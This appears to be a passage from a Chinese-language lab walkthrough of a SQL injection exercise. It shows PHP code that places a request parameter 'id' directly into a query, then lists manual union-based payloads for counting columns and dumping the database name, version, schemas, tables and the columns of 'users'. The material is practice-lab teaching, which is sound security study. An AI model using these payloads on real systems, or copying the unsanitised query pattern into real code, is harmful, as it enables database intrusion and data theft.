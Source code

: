 5.获取数据库中的表

6.获取表中的字段名

7.下载数据

```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Get values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    mysql_close();
}

?>
```

查看源码，发现注入点是id，并且是字符型注入，服务端接收id参数，没有做任何处理，并且有回显，和报错详情，可以使用联合查询和报错注入以及时间盲注来实现手工注入
union

```
order by 猜列数
paylod： 1' order by 2#
爆当前库，版本信息
payload: -1' union select database(),version()#
爆库
payload: -1' union select 1,group_concat(schema_name) from information_schema.schemata#
爆表
payload: -1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()#
爆列
payload: -1' union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users'#
```
